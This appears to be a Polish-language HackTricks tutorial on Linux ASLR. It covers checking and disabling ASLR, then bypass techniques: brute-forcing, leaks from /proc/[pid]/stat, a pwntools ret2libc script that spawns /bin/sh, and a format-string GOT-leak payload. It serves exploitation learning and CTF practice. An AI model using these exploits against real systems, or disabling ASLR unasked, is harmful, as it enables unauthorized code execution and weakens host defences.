 # ASLR

{{#include ../../../../banners/hacktricks-training.md}}

## Podstawowe informacje

**Randomizacja układu przestrzeni adresowej (ASLR)** to technika zabezpieczeń stosowana w systemach operacyjnych do **randomizacji adresów pamięci** używanych przez procesy systemowe i aplikacyjne. Dzięki temu znacznie trudniej jest atakującemu przewidzieć lokalizację konkretnych procesów i danych, takich jak stos, sterta i biblioteki, co łagodzi niektóre rodzaje exploitów, szczególnie przepełnienia bufora.

### **Sprawdzanie statusu ASLR**

Aby **sprawdzić** status ASLR w systemie Linux, możesz odczytać wartość z pliku `/proc/sys/kernel/randomize_va_space`. Wartość przechowywana w tym pliku określa rodzaj stosowanej randomizacji ASLR:

- **0**: Brak randomizacji. Wszystko jest statyczne.
- **1**: Konserwatywna randomizacja. Biblioteki współdzielone, stos, mmap(), strona VDSO są randomizowane.
- **2**: Pełna randomizacja. Oprócz elementów randomizowanych przez konserwatywną randomizację, pamięć zarządzana przez `brk()` jest randomizowana.

Możesz sprawdzić status ASLR za pomocą następującego polecenia:
```bash
cat /proc/sys/kernel/randomize_va_space
```
### **Wyłączanie ASLR**

Aby **wyłączyć** ASLR, ustaw wartość `/proc/sys/kernel/randomize_va_space` na **0**. Wyłączanie ASLR jest ogólnie niezalecane poza scenariuszami testowymi lub debugowania. Oto jak możesz to wyłączyć:
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
Możesz również wyłączyć ASLR dla wykonania za pomocą:
```bash
setarch `arch` -R ./bin args
setarch `uname -m` -R ./bin args
```
### **Włączanie ASLR**

Aby **włączyć** ASLR, możesz zapisać wartość **2** do pliku `/proc/sys/kernel/randomize_va_space`. Zazwyczaj wymaga to uprawnień roota. Włączenie pełnej randomizacji można zrealizować za pomocą następującego polecenia:
```bash
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```
### **Utrzymywanie zmian po ponownym uruchomieniu**

Zmiany wprowadzone za pomocą poleceń `echo` są tymczasowe i zostaną zresetowane po ponownym uruchomieniu. Aby zmiana była trwała, musisz edytować plik `/etc/sysctl.conf` i dodać lub zmodyfikować następującą linię:
```tsconfig
kernel.randomize_va_space=2 # Enable ASLR
# or
kernel.randomize_va_space=0 # Disable ASLR
```
Po edytowaniu `/etc/sysctl.conf`, zastosuj zmiany za pomocą:
```bash
sudo sysctl -p
```
To zapewni, że ustawienia ASLR pozostaną po ponownych uruchomieniach.

## **Obejścia**

### 32-bitowe brute-forcing

PaX dzieli przestrzeń adresową procesu na **3 grupy**:

- **Kod i dane** (zainicjowane i niezainicjowane): `.text`, `.data` i `.bss` —> **16 bitów** entropii w zmiennej `delta_exec`. Ta zmienna jest losowo inicjowana z każdym procesem i dodawana do początkowych adresów.
- **Pamięć** przydzielona przez `mmap()` i **biblioteki współdzielone** —> **16 bitów**, nazwane `delta_mmap`.
- **Stos** —> **24 bity**, określane jako `delta_stack`. Jednak efektywnie wykorzystuje **11 bitów** (od 10. do 20. bajtu włącznie), wyrównane do **16 bajtów** —> To skutkuje **524,288 możliwymi rzeczywistymi adresami stosu**.

Powyższe dane dotyczą systemów 32-bitowych, a zmniejszona końcowa entropia umożliwia obejście ASLR poprzez wielokrotne próby wykonania, aż exploit zakończy się sukcesem.

#### Pomysły na brute-force:

- Jeśli masz wystarczająco duży overflow, aby pomieścić **duży NOP sled przed shellcode**, możesz po prostu brute-forcować adresy na stosie, aż przepływ **przeskoczy nad jakąś częścią NOP sled**.
- Inną opcją w przypadku, gdy overflow nie jest tak duży, a exploit można uruchomić lokalnie, jest **dodanie NOP sled i shellcode w zmiennej środowiskowej**.
- Jeśli exploit jest lokalny, możesz spróbować brute-forcować adres bazowy libc (przydatne dla systemów 32-bitowych):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
- Jeśli atakujesz zdalny serwer, możesz spróbować **brute-force'ować adres funkcji `libc` `usleep`**, przekazując jako argument 10 (na przykład). Jeśli w pewnym momencie **serwer zajmuje dodatkowe 10s na odpowiedź**, znalazłeś adres tej funkcji.

> [!TIP]
> W systemach 64-bitowych entropia jest znacznie wyższa i to nie jest możliwe.

### Informacje lokalne (`/proc/[pid]/stat`)

Plik **`/proc/[pid]/stat`** procesu jest zawsze czytelny dla wszystkich i **zawiera interesujące** informacje, takie jak:

- **startcode** & **endcode**: Adresy powyżej i poniżej z **TEXT** binarnego
- **startstack**: Adres początku **stosu**
- **start_data** & **end_data**: Adresy powyżej i poniżej, gdzie znajduje się **BSS**
- **kstkesp** & **kstkeip**: Aktualne adresy **ESP** i **EIP**
- **arg_start** & **arg_end**: Adresy powyżej i poniżej, gdzie są **argumenty cli**.
- **env_start** & **env_end**: Adresy powyżej i poniżej, gdzie są **zmienne środowiskowe**.

Dlatego, jeśli atakujący znajduje się na tym samym komputerze co binarny plik, który jest wykorzystywany, a ten plik binarny nie oczekuje przepełnienia z surowych argumentów, ale z innego **wejścia, które można skonstruować po przeczytaniu tego pliku**. Możliwe jest, aby atakujący **uzyskał kilka adresów z tego pliku i skonstruował od nich przesunięcia dla exploita**.

> [!TIP]
> Aby uzyskać więcej informacji na temat tego pliku, sprawdź [https://man7.org/linux/man-pages/man5/proc.5.html](https://man7.org/linux/man-pages/man5/proc.5.html), szukając `/proc/pid/stat`

### Posiadanie wycieku

- **Wyzwanie polega na uzyskaniu wycieku**

Jeśli otrzymasz wyciek (łatwe wyzwania CTF), możesz obliczyć przesunięcia na jego podstawie (zakładając na przykład, że znasz dokładną wersję libc, która jest używana w systemie, który exploitujesz). Ten przykład exploita jest wyciągnięty z [**przykładu stąd**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/aslr-bypass-with-given-leak) (sprawdź tę stronę po więcej szczegółów):
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
'A' * 32,
libc.sym['system'],
0x0,        # return address
next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```
- **ret2plt**

Wykorzystując przepełnienie bufora, możliwe byłoby wykorzystanie **ret2plt** do wyeksportowania adresu funkcji z libc. Sprawdź:

{{#ref}}
ret2plt.md
{{#endref}}

- **Format Strings Arbitrary Read**

Podobnie jak w ret2plt, jeśli masz dowolne odczyty przez lukę w formatach ciągów, możliwe jest wyeksportowanie adresu **funkcji libc** z GOT. Następujący [**przykład pochodzi stąd**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt_and_got):
```python
payload = p32(elf.got['puts'])  # p64() if 64-bit
payload += b'|'
payload += b'%3$s'              # The third parameter points at the start of the buffer

# this part is only relevant if you need to call the main function again

payload = payload.ljust(40, b'A')   # 40 is the offset until you're overwriting the instruction pointer
payload += p32(elf.symbols['main'])
```
Możesz znaleźć więcej informacji na temat Format Strings arbitrary read w:

{{#ref}}
../../format-strings/
{{#endref}}

### Ret2ret & Ret2pop

Spróbuj obejść ASLR, wykorzystując adresy wewnątrz stosu:

{{#ref}}
../../stack-overflow/ret2ret.md
{{#endref}}

{{#include ../../../../banners/hacktricks-training.md}}
